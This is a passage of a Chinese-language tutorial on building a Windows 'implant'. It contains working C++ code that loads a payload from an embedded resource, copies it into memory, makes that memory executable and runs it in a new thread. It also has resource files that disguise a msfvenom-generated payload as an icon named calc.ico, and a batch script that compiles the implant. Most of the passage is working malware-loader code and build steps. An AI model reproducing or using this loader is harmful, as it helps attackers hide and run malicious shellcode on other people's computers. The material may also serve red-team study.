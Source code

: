 ```cpp
    resHandle = LoadResource(NULL, res);
    payload = (char *) LockResource(resHandle);
    payload_len = SizeofResource(NULL, res);

    exec_mem = VirtualAlloc(0, payload_len, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
    printf("%-20s : 0x%-016p\n", "payload addr", (void *)payload);
    printf("%-20s : 0x%-016p\n", "exec_mem addr", (void *)exec_mem);

    RtlMoveMemory(exec_mem, payload, payload_len);

    rv = VirtualProtect(exec_mem, payload_len, PAGE_EXECUTE_READ, &oldprotect);

    printf("\nHit me!\n");
    getchar();

    if ( rv != 0 ) {
            th = CreateThread(0, 0, (LPTHREAD_START_ROUTINE) exec_mem, 0, 0, 0);
            WaitForSingleObject(th, -1);
    }

    return 0;
}

```

### 编译过程

编译过程也与之前有所不同，需要用到三个工具：rc资源编译器、cvtres资源转换器、cl.exe编译器。

- `rc resources.rc`指令用于从`resources.rc`文件中取出资源。

该文件内容同如下，指定预处理文件resources.h和定义变量FAVICON\_ICO，类型为RCDATA，值为calc.ico

```cpp
// resources.rc
#include "resources.h"

FAVICON_ICO RCDATA calc.ico
```

`resources.h`文件内容如下，定义了变量FAVICON\_ICO，值为100

```php
#define FAVICON_ICO 100
```

calc.ico则是我们生成一个payload文件，可以通过msfvenom工具生成。

- `cvtres /MACHINE:x64 /OUT:resources.o resources.res`指令将res文件转换为objiect文件（用于后续的链接工作）
- `cl.exe /nologo /Ox /MT /W0 /GS- /DNDEBUG /Tc implant.cpp /link /OUT:implant.exe /SUBSYSTEM:CONSOLE /MACHINE:x64 resources.o`将resources.o文件和源文件链接生成.exe文件

编译命令集合为bat批处理文件：

```php
@ECHO OFF

rc resources.rc
cvtres /MACHINE:x64 /OUT:resources.o resources.res
cl.exe /nologo /Ox /MT /W0 /GS- /DNDEBUG /Tc implant.cpp /link /OUT:implant.exe /SUBSYSTEM:CONSOLE /MACHINE:x64 resources.o
```

